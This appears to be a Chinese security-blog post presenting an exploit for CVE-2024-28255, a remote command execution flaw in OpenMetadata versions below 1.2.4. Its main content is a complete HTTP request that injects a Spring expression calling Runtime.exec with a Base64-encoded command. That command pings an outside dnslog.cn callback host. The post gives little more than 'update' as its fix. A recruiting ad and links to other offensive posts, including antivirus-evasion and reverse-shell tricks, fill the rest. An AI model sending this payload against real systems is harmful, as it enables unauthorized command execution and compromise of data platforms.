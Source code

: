 #  CVE-2024-28255 RCE漏洞（附EXP）   
 灰帽安全   2024-04-11 18:23  
  
**0x01  前言**  
  
      
OpenMetadata是一个用于数据治理的一体化平台。  
  
condition接口存在远程命令执行漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vvO7f1bFAvUiartH39iaicT16dfYYHRZYvz2d4935EcufUYDzppibJNXEXGCr5DUp6LvVODMGWV06oqe8crNbv7Qrw/640?wx_fmt=png&from=appmsg "")  
  
**0x02  影响版本**  
```
OpenMetadata  < 1.2.4
```  
  
**0x03  漏洞复现**  
  
EXP如下：（  
**执行的命令需要Base64编码**  
）  
```
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22cGluZyAtYyA2IDcxNjd0OC5kbnNsb2cuY24=%22))) HTTP/1.1
Host: ip
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```  
  
发送该请求，如下利用成功！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vvO7f1bFAvUiartH39iaicT16dfYYHRZYvzOSTAXRImfUnlPV07JtsCsr2oE04zE9uZicQ4ej0gknDvVibQkna1OiaDg/640?wx_fmt=png&from=appmsg "")  
  
  
**0x04  修复方案**  
```
建议及时更新
```  
  
**HVV内推通道↓↓↓**  
1.   
1. **高薪招聘 | 诚招Hvv“攻防演练”工程师！**  
  
1.   
1. 扫码或者点击下方链接报名投递简历即可  
  
1.   
1. 记得备注【EchoSec】优先直推面试哦~  
  
1. http://gywa.com.cn/cTiWka  
  
1. 后台回复关键字【  
内推面试  
】也可投递~  
  
1.   
1. 祝师傅们面试顺利！！GoodLucky！！  
  
1. ![](https://mmbiz.qpic.cn/mmbiz_png/1bQDlhHMib4A7kJeibPd8yBbdrqxqicvEIVSJuv3HrCDNe3jgCv4KJiapeE643lNzxj85iaeMkYx3sF6suibt0lMvxtQ/640?wx_fmt=png "")  
  
1.   
 ![](https://mmbiz.qpic.cn/mmbiz_png/vvO7f1bFAvWvSib3qGID65IIhLcR3wQvaO8Z3pdR5jlDkCwnbSoK5dXpye5yrSlnh1e8NmhmCibuuRqHU2wFo7VQ/640?wx_fmt=png "")  
  
**往期回顾**  
  
1111  
1. [☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [CVE-2023-33246 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487479&idx=1&sn=0344b67820f235cef4e6ba59c6e3c181&chksm=fcdf53e8cba8dafecadb3eae5728d5238040b85f25612bc1bd9cc01fcc2a339f88276ecaee7b&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484070&idx=1&sn=d0b1b7bd8687c452ccfa10d11218985e&chksm=fcdf5eb9cba8d7af7059dd9d0de041c2ef5eb7b4986d59fac34f62f5e4b705c42aea4018c318&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [横向移动与域控权限维持方法总汇](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484308&idx=1&sn=dffaf96b424952c365fd22f733f696f7&chksm=fcdf5f8bcba8d69d58ebaa0da04fbc2b4bf236df6e763d3da4addc097b559f71edfb48ae9712&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484076&idx=1&sn=6af2e134ac579e48697f2ee6b7279a4e&chksm=fcdf5eb3cba8d7a5f545a558c13e184c82bf1bb0dd281a4d7ade4e11fa1e647ac447322fe8af&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [Apache HTTPd最新RCE漏洞复现](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484184&idx=1&sn=f9286573a97bd404e43622c0235aa357&chksm=fcdf5f07cba8d611dc7d8c479b47e312b95194ec5634c6fe46867719bea8de051681dd777558&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484184&idx=1&sn=f9286573a97bd404e43622c0235aa357&chksm=fcdf5f07cba8d611dc7d8c479b47e312b95194ec5634c6fe46867719bea8de051681dd777558&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [CNVD-2023-34111 RCE漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487473&idx=1&sn=05f60bd9badc889e1bc2bc56e9c776ab&chksm=fcdf53eecba8daf8ec1905ed03e31edf632c4a10f29e4002e66cc1a52487c368de52c341987f&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484308&idx=1&sn=dffaf96b424952c365fd22f733f696f7&chksm=fcdf5f8bcba8d69d58ebaa0da04fbc2b4bf236df6e763d3da4addc097b559f71edfb48ae9712&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [Cobalt Strike免杀脚本生成器|cna脚本|bypassAV](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484070&idx=1&sn=d0b1b7bd8687c452ccfa10d11218985e&chksm=fcdf5eb9cba8d7af7059dd9d0de041c2ef5eb7b4986d59fac34f62f5e4b705c42aea4018c318&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484268&idx=1&sn=cbbcf96a16f4115a277f7b178f58fbfd&chksm=fcdf5f73cba8d6654a8da5bc3c00a6c2997263869f74e7be9316bbc6e4e527e317e999539d4b&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [MySQL数据库利用姿势](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484823&idx=1&sn=90bcbbbfc7b8b4b22204fd0bb767976e&chksm=fcdf5988cba8d09e3e34149a546f0301ae210f02550b36aad3de051ec2c6f877b25d980bec16&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484271&idx=1&sn=b07fd5a4b7a0d2430281e76c30cbb4eb&chksm=fcdf5f70cba8d6665a709a2da2bb4ea15751777d3a81818a19d52fe4b5a8306c756f0995bda5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [phpMyAdmin漏洞利用汇总](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484271&idx=1&sn=b07fd5a4b7a0d2430281e76c30cbb4eb&chksm=fcdf5f70cba8d6665a709a2da2bb4ea15751777d3a81818a19d52fe4b5a8306c756f0995bda5&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484271&idx=1&sn=b07fd5a4b7a0d2430281e76c30cbb4eb&chksm=fcdf5f70cba8d6665a709a2da2bb4ea15751777d3a81818a19d52fe4b5a8306c756f0995bda5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[ | 泛微E-Mobile任意文件上传漏洞（附EXP）](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487464&idx=1&sn=fb5391a43f46cdda680366e1433a4065&chksm=fcdf53f7cba8dae19120faf7bf9797bd58ef3dcffe15038d033771c6c9c295a3fdb21fa6f8eb&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487440&idx=1&sn=26caf45279fc94cddb4afd15957ab903&chksm=fcdf53cfcba8dad95094622e9c6490b5499d4e20d87837c20ff76af8a748f9cf0f3f28477658&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [小技巧~用一条命令来隐藏反向Shell](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487440&idx=1&sn=26caf45279fc94cddb4afd15957ab903&chksm=fcdf53cfcba8dad95094622e9c6490b5499d4e20d87837c20ff76af8a748f9cf0f3f28477658&scene=21#wechat_redirect)  
  
  
1. [](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487440&idx=1&sn=26caf45279fc94cddb4afd15957ab903&chksm=fcdf53cfcba8dad95094622e9c6490b5499d4e20d87837c20ff76af8a748f9cf0f3f28477658&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [New免杀ShellCode加载器（附下载）](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487432&idx=1&sn=8f1aa7f1d663858264ed268ae0e4e7e7&chksm=fcdf53d7cba8dac16b53dc21b1062b16649b814ddaef3e79de5c5377219935f1b9490a3bc72c&scene=21#wechat_redirect)  
  
  
1. [☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
[☆](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247484374&idx=1&sn=f98119b165319ea399cf3252e5976532&chksm=fcdf5fc9cba8d6df1080aa1d8e86c67bb873bcd40139293f8f63279c2df44946023ed6460cb5&scene=21#wechat_redirect)  
  
 | [红队攻防 | 解决HW被疯狂封IP姿势～（附下载）](http://mp.weixin.qq.com/s?__biz=MzU3MTU3NTY2NA==&mid=2247487413&idx=1&sn=7cb9ecc5df0e78d9c73b6dcad064eb16&chksm=fcdf53aacba8dabc1eb24b9cd3df4554f0a83a9657170ec3167f2e718dea45024374abf704f7&scene=21#wechat_redirect)  
  
  
1.   
   
1. ![](https://mmbiz.qpic.cn/mmbiz_png/vvO7f1bFAvWR5RScYlUsqTtj0TWP0UvTL90icIibdrGQ5jicvqWFo3ZfrDL4HKjjU2dsK0MtNjfRnsMJuXMcUDNibA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1&random=0.5650918813890391&random=0.33571164206431026 "")  
  
关注我  
  
获得更多精彩  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/vvO7f1bFAvWvSib3qGID65IIhLcR3wQvauna7g74hhUBYS8A99NMyhkmMf6MpvtvUWUZA0YAhO1hQZvPYlAwXwA/640?wx_fmt=jpeg "")  
  
  
1.   
1. **觉得内容不错，就点下“赞”和“在看”如侵权请私聊公众号删文**  
  
1. ![](https://mmbiz.qpic.cn/mmbiz_png/1bQDlhHMib4A7kJeibPd8yBbdrqxqicvEIVSJuv3HrCDNe3jgCv4KJiapeE643lNzxj85iaeMkYx3sF6suibt0lMvxtQ/640?wx_fmt=png "")  
  
